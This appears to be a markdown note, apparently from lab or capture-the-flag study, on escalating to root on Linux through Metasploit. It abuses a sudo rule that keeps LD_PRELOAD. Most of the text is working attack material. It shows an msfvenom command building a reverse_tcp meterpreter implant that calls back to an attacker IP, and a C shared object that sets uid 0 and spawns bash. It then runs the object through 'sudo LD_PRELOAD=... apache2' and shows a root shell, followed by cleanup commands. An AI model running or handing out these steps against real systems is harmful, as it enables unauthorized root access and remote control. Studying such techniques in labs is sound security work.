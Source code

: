 # Metasploit

## 01 - Detect

```
meterpreter > execute -if sudo -a "-l"
Process 2673 created.
Channel 23 created.
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD
..[omitted]..
```

## 02 - Exploit

```
meterpreter > mkdir exploit
Creating directory: exploit
```

### 2.1 - Generate an implant via `msfvenom`

TODO: Show the steps when using `LD_PRELOAD` for escalating privileges.

```
$ msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=<IP> lport=443 -f elf-so -o implant.so

meterpreter > upload implant.so exploit/
```

### 2.2 - Compile the implant

```
meterpreter > cd exploit/
meterpreter > edit shell.c
#include <stdlib.h>
#include <unistd.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
meterpreter > execute -if gcc -a "-fPIC -shared -o shell.so shell.c -nostartfiles"
Process 2698 created.
Channel 25 created.
meterpreter > shell -t
[*] env TERM=xterm HISTFILE= /usr/bin/script -qc /bin/bash /dev/null
Process 2710 created.
Channel 26 created.
cd exploit
user@debian:~/exploit$ sudo LD_PRELOAD=~/exploit/shell.so apache2
root@debian:/home/user# id
id
uid=0(root) gid=0(root) groups=0(root)
root@debian:/home/user# exit
exit
exit
apache2: bad user name ${APACHE_RUN_USER}
user@debian:~$ exit
exit
exit
```

## 03 - Cleanup

```
meterpreter > cd ..
meterpreter > rmdir exploit/
Removing directory: exploit/
```